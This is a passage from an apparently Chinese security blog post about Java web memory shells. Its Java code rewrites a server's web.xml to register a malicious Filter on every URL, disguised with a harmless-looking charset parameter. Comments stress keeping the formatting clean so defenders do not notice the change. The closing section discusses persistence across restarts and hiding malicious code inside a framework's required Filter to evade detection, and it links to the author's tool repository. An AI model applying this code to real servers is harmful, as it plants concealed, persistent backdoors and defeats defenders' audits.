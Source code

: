 修改配置
----

最后一步就是修改`web.xml`的配置了

虽然修改的是编译后的`web.xml`，但是防御人员一般没有源码审计，只能审计编译后的字节码和`web.xml`文件

```java
// 注意得加入换行和缩进达到视觉美观
// 要不然一眼就能看出来被修改过
String targetData = "    <filter>\n" +
    "        <filter-name>%s</filter-name>\n" +
    "        <filter-class>%s</filter-class>\n" +
    "        <init-param>\n" +
    "            <param-name>charset</param-name>\n" +
    "            <param-value>UTF-8</param-value>\n" +
    "        </init-param>\n" +
    "    </filter>\n" +
    "    <filter-mapping>\n" +
    "        <filter-name>%s</filter-name>\n" +
    "        <url-pattern>/*</url-pattern>\n" +
    "    </filter-mapping>\n";
String className1 = startName + "/" + newClassName;
className1 = className1.replaceAll("/",".");
targetData = String.format(targetData, finalName,className1,finalName);

String resourcePath = filter.getClass().getResource("").toString();
// 处理路径问题
resourcePath = resourcePath.split("file:/")[1];
resourcePath = resourcePath.split("WEB-INF")[0];
String xmlPath = resourcePath+"WEB-INF/web.xml";
byte[] data = Files.readAllBytes(Paths.get(xmlPath));
String dataStr = new String(data);
String prefix = dataStr.split("</web-app>")[0];
StringBuilder finalData = new StringBuilder();
finalData.append(prefix);
finalData.append(targetData);
finalData.append("</web-app>");
// 写入新数据
Files.write(Paths.get(xmlPath),finalData.toString().getBytes(StandardCharsets.UTF_8));
```

总结
--

难点在于动态字节码，其他部分做起来不算复杂

一个思考：该手段是否有可能导致内存马的**持久化**呢？

已经写入了目标的classpath，由于模拟配置了`web.xml`，是否会导致第二次启动直接加载了恶意`Filter`

后来笔者挖某知名框架内存马时，摸索出一种进阶的内存马免杀：将恶意代码隐藏到框架必须的Filter中

将在后续的文章中和大家分享

笔者目前本科在读，才疏学浅，错误和不足之处还请大佬指出，十分感谢！

代码在这里：<https://github.com/EmYiQing/MemShell>